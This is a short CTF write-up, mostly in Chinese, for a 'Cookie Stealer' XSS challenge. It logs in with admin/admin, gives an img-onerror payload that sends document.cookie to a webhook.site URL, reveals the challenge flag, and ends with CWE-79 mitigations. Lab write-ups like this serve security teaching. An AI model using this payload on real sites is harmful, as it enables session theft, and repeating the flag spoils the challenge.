 # Cookie Stealer

Author: 孫逸平

Date: 2024-05-24

Link: https://lotuxctf.com/challenges#Cookie%20Stealer-41

## 題目說明

我要製作一個網站偷走所有人的餅乾！

I will make a website to steal everyone's cookie!


Author：FlyDragon

http://lotuxctf.com:20005

> **Hint1:**
>
> "Share to admin" 指的是 admin 會拜訪你的網頁。
>
> "Share to admin" implies that the admin will visit your page.

> **Hint2:**
>
> The flag is admin's cookie

## Write-up

1. 利用帳號：`admin`，密碼：`admin` 登入。
2. 任意撰寫內文發送後猜測為 XSS 漏洞。
3. 利用 webhook.site 擷取 Cookie：
    ```javascript
    <img src=x onerror="fetch('https://webhook.site/YourWebhookLink/?cookie='+document.cookie)"/>
    ```
4. 在 webhook.site 中，得到 flag：`LoTuX{XSS_ch4ll3nGe_For_8abYs}`。

## 防護說明與建議

### 本題 CWE

* CWE-79: Improper Neutralization of Input During Web Page Generation ('Cross-site Scripting')

### 建議防護與修補

* 輸出編碼
* Cookie 設為 HttpOnly

## 心得

這題原本在 HTML 標籤中相加字串，後來發現不能這麼做，所以只好用 JavaScript 去寫。
